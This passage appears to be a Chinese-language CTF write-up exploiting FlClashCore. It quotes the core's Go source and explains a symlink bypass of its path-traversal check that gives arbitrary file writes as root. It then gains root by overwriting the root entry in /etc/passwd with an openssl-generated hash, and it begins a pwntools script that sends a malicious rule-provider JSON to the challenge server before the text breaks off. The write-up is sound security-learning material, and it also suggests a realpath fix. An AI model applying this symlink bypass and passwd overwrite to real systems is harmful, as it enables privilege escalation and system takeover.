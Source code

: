 ```go
// hub.go
func handleInitClash(paramsString string) bool {
	runLock.Lock()
	defer runLock.Unlock()
	var params = InitParams{}
	err := json.Unmarshal([]byte(paramsString), &params)
	if err != nil {
		return false
	}
	version = params.Version
	if !isInit {
		constant.SetHomeDir(params.HomeDir)
		isInit = true
	}
	return isInit
}
// common.go
func setupConfig(params *SetupParams) error {
	runLock.Lock()
	defer runLock.Unlock()
	var err error
	constant.DefaultTestURL = params.TestURL
	currentConfig, err = parseWithPath(filepath.Join(constant.Path.HomeDir(), "config.json"))
	if err != nil {
		currentConfig, _ = config.ParseRawConfig(config.DefaultRawConfig())
	}
	hub.ApplyConfig(currentConfig)
	patchSelectGroup(params.SelectedMap)
	updateListeners()
	runtime.GC()
	return err
}
```

……吗？没这么简单，因为事实上Clash Meta Core有一层路径穿越检查，下载的文件必须属于安全的（家目录）的子目录。然而，经过尝试发现，当家目录下**软连接**指向一个外部目录时，FlClashCore并不会检查软连接的目标路径是否在家目录下，因此我们可以利用软连接绕过这个检查。这个如果需要修复，应该在检查路径时使用`realpath`、`readlink`或等效的方法。

至此就可以任意位置以root写入文件了。此时提权我尝试了几种方法：

1. 写入`/etc/sudoer.d`，结果发现本机上没有sudo。
2. 写入`/etc/cron.d`，结果发现cron服务没有启动。
3. 写入`/etc/shadow`，结果发现这个也没有；倒是找到了`/etc/passwd`，然后发现直接修改这个也可以实现修改root密码。

具体来说，通过`openssl passwd -6 newpassword`生成一个新的密码hash，然后把root行替换掉即可。然后就可以直接`su root`登录了。

最后就是，由于这个题需要监听一个端口等待FlClashCore反向连接，因此需要手写socket（我理解http server应该不行，因为需要获取回显）。我没太想清楚这种并非一问一答的情况要怎么写成非阻塞（可能要生产者消费者开多线程），总之我就让AI帮我写成现在这个样子了，写的很菜。回头还是得好好打基本功。



```py
from pwn import *
from sys import argv
import base64
import time

conn = remote("prob03.geekgame.pku.edu.cn", 10003)
with open("TOKEN.txt", "r") as f:
    token = f.read().strip()
    conn.sendlineafter(b"token:", token.encode())

malicious_json = """
{
    "rule-providers": {
        "provider-gfw": {
            "type": "http",
            "behavior": "domain",
```